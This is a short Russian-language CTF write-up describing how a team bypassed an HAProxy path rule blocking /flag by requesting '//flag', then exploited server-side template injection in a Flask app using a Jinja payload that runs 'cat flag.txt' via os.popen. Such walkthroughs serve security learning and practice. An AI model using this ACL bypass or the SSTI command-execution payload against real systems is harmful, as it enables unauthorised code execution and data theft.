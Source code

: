 # Отчет от k183r808r1. Третий вебчик

Дано веб-приложение `http://192.168.12.11:8001/` и исходники к нему:

![Screenshot_2024-03-21_17_54_00](https://github.com/shersh-is/nto_k183r808r1/assets/81306107/a322edf8-476c-4070-bcc0-c346799dacb9)

1. В исходниках в `app.py` видим, что на пути `/flag` можно получить SSTI (используется метод render_template_string), но заходя на /flag, получаем 403 ошибку:

   ![Screenshot_2024-03-21_17_50_31](https://github.com/shersh-is/nto_k183r808r1/assets/81306107/a6757ef0-c375-4d5d-af5b-92cf92020056)

2. Видим в исходниках конфиг к haproxy, который приводит к 403 на /flag:
   
   `acl restricted_page path_beg,url_dec -i /flag`
   
    `http-request deny if restricted_page`

3. Так как в этом конфиге haproxy проверяет, если путь начинается с /flag, и блокирует все где путь так начинается, изменив ссылку чтобы flask отрендерил ее также, но она начиналась не со /flag, мы получим доступ к странице. Обходим это с помощью //flag:

![Screenshot_2024-03-21_17_45_29](https://github.com/shersh-is/nto_k183r808r1/assets/81306107/dd7e7211-5368-47da-a1f9-92c2b711a816)

4. Получив доступ к странице, просто эксплуатируем SSTI. Пейлоад: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}`

5. Получаем флаг:

![Screenshot_2024-03-21_17_49_53](https://github.com/shersh-is/nto_k183r808r1/assets/81306107/ec2ac413-12bc-4b17-85d4-b9ed12a74262)
